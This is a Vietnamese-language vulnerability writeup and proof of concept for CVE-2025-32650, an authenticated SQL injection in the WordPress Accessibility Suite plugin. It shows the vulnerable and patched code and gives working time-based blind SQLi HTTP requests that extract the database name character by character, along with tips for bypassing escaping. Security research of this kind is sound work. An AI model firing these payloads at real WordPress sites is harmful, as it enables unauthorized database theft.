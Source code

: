 # CVE-2025-32650 Analysis & POC


---

Lỗ hổng xảy ra trên plugin **Accessibility Suite** của WordPress trước phiên bản **4.19**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
- **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 4.18
- **CVSS severity**: High (8.5) 
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Accessibility Suite**:  v4.18(vul) và v4.19(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis
Ứng dụng chưa thực hiện ép kiểu cho **input** và mặc dù có sử dụng `prepare()` để chống SQLi, nhưng do triển khai không đúng nên lỗ hổng SQLi vẫn tồn tại.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **includes/classes/Helper.php**

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
````

Bản vá đã truyền `$scan_id` như tham số vào câu query. SQL injection được phòng ngừa vì biến không được nối trực tiếp vào query nữa.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

![patch diff](patch_diff.png "Patch diff")

### How it work?

Lỗ hổng nằm trong hàm tĩnh `save_false_positive` của class `Helper` thuộc file **includes/classes/Helper.php**. Để xác định nơi nó được gọi, ta tìm kiếm với tự khóa `save_false_positive` trong thư mục chứa plugin.

![search 1](search_1.png "Search save_false_positive")

👉 `save_false_positive` được `callback` của action hook `wp_ajax_ONLINE_ADAv4/save_false_positive` gọi.

Khi **POST** request được gửi đến `/wp-admin/admin-ajax.php` với `action`=`ONLINE_ADAv4/save_false_positive` callback được gọi.
Trong request cần 2 **POST** param `issue_id` và `scan_id`. Nếu không, ứng dụng sẽ trả về:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

`save_false_positive` được gọi với đối số `issue_id` và `scan_id`. Các đối số này sẽ bị escape bởi [**magic quotes**](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress vì lấy trực tiếp từ **POST** request.

Ứng dụng check xem người dùng có quyền truy cập vào trang admin không. Nếu không, trả về chuỗi rỗng.

```php
if(! is_admin()) {
    return '';
}
```

Sau đó các đối số trực tiếp truyền vào câu query chứa lỗ hổng SQLi rồi thực thi.

---

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi. Vì chỉ cần là user có quyền truy cập vào trang admin, nên ta tạo user với `role:subcriber` có **privilege thấp nhất**.

Trong WordPress, user có role cao hơn sẽ kế thừa cả **privilege** role thấp hơn. Nên chỉ cần user `subcriber` gửi payload thành công thì tất cả user còn lại đều có thể. Đúng với mô tả của CVE

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

Khi đó câu query sẽ trở thành

```sql
SELECT list FROM  wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

![time response](time_response.png "Time response with SQLi payload")

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

* **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng với truy vấn trước đó.
* **Subquery**:

  * **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
  * **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

![SQL Excution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL Execution Order Diagram")

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì như phân tích [ở trên](#how-it-work), `scan_id` sẽ bị escape.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

---

## Conclusion

Lỗ hổng **CVE-2025-32650** trong plugin WordPress **Accessibility Suite** trước phiên bản **4.19** xuất phát từ việc triển khai không đúng hàm `$wpdb->prepare()` dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã triển khai đúng `$wpdb->prepare`, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:

* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection ](https://wordpress.org/plugins/online-accessibility/)

---


